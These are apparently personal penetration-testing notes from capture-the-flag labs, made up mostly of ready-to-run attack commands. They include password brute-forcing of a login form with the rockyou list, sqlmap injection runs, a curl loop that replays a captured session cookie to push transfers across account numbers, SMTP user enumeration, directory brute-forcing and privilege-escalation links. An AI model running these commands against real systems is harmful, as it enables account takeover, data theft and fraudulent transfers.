 
## Pentest

```sh
hydra -I -l 99 -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -s 5000 ${TARGET_IP} http-form-get "/:user=^USER^&pass=^PASS^:S=302"
hydra -I -l 100 -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -s 5000 ${TARGET_IP} http-form-get "/:user=^USER^&pass=^PASS^:S=302"
```

```sh
sqlmap http://10.10.178.141:5000 --tamper=space2comment --level 3 --risk 3 --data 'account_number=101+&password=hello'
```

```sh
sqlmap http://10.10.178.141:5000 --cookie="session=eyJuYW1lIjoiVGVzdGVyIiwidXNlciI6MTEwfQ.Z1tB3g.jyoCFwdXj7uP7v6TVesQ7O3-zng" --tamper=space2comment --level 3 --risk 3 --data 'account_number=101&ammount=1'
```

```sh
send_req() {
  id="$1"
  curl -L -s 'http://10.10.178.141:5000/transfer' \
    -X POST \
    -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0' \
    -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
    -H 'Accept-Language: en-US,en;q=0.5' \
    -H 'Accept-Encoding: gzip, deflate' \
    -H 'Content-Type: application/x-www-form-urlencoded' \
    -H 'Origin: http://10.10.178.141:5000' \
    -H 'Connection: keep-alive' \
    -H 'Referer: http://10.10.178.141:5000/dashboard' \
    -H 'Cookie: session=eyJuYW1lIjoiVGVzdGVyIiwidXNlciI6MTEwfQ.Z1tB3g.jyoCFwdXj7uP7v6TVesQ7O3-zng' \
    -H 'Upgrade-Insecure-Requests: 1' \
    -H 'Priority: u=0, i' \
    --data-raw "account_number=${id}&amount=1" | grep Success
}
export -f send_req

array=$(seq 99 112)

parallel send_req ::: "${array[@]}"
```

## nmap report

```sh
nmap -sV -sC ${TARGET_IP}
```

## Whatweb

```txt
http://10.10.178.141:5000/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.0.4 Python/3.8.10], IP[10.10.178.141], Python[3.8.10], Werkzeug[3.0.4]
```

## TELNET scripting

```sh
#!/usr/bin/env bash

(
echo open 10.129.88.30 25
sleep 5
echo VRFY samuel
sleep 2
) | telnet
```

## Dir Enum

```sh
gobuster dir -u "http://jewel.uploadvulns.thm/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 60 -x .phar,.php.phtm
```

## Passive OS fingerprinting

* [satori](https://github.com/xnih/satori/)
* [p0f](https://lcamtuf.coredump.cx/p0f3/)

## Mac Ages

* [mac ages](https://github.com/hdm/mac-ages)

### links

* [cvss calculator](https://www.first.org/cvss/calculator/3.1)
* [cyberchef](127.0.0.1:8081)
* [abuse.ch](https://abuse.ch)
* [urlscan](https://urlscan.io)


### Linux Privilege Escalation

* [netbiosx's checklist](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)
* [payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
* [total oscp guide](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)
* [payatu](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/)

* [linpeas](https://raw.githubusercontent.com/Cerbersec/scripts/refs/heads/master/linux/linpeas.sh)
